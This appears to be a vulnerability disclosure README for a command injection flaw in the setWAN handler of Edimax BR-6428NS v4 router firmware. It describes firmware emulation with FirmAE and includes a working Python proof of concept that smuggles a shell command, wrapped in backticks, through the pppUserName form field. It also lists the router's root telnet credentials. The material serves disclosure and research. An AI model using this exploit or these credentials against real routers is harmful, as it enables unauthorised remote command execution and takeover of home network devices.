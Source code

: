 # Command Injection

Command injection without any limitations

## Firmware

Wireless: Edimax home Wireless Routers N300 

Firmware Version: BR-6428NS_v4_1.10

You can download Firmware at this [website](https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v4) and use FirmAE to simulate the router environment.

FirmAE command: `./run.sh -r v4 BR-6428NS_v4_1.10.bin`(This will take a while, please be patient:)

![image-20230428095433531](img/image-20230428095433531.png)

## Description

The vulnerability was found in **/bin/webs**.

Function is  **setWAN**

![image-20230428112152251](img/image-20230428112152251.png)

## poc

python

```python
import requests

command = "touch /tmp/Swe3ty4"

url = "http://192.168.2.1/goform/setWAN"
data = {
	"wanMode":"2",
	"pppUserName":"`"+command+"`"
}

r = requests.post(url,data=data)
print(r.text)
```

use **root/edimaxens** telnet to the router

```shell
telnet 192.168.2.1
```

![image-20230428112407623](img/image-20230428112407623.png)